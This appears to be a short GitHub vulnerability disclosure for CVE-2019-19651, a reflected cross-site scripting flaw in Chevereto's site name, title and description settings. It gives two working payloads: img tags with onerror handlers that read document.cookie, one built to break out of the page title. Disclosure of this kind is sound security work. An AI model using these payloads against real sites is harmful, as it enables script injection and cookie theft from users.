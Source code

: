 # CVE-2019-19651
Chevereto reflected XSS in Website Name, doctitle, and description - 1.0.0 - 1.1.4 Free, &lt;= 3.13.5 Core

# Dashboard -> Settings -> Website name, Website doctitle, Website description

Putting this in will reflect on the whole site for all the users

```
">Chevt<img src=x onerror=alert(document.cookie)><"
```

It will reflect on different parts of the site, so if you want it to execute after <title> in the header you can do

```
Chevereto</title>Chevt<img src=x onerror=alert(document.cookie)><title>
```

</br>
<kbd>
  <img src="/xss-1.png?raw=true">
</kbd>
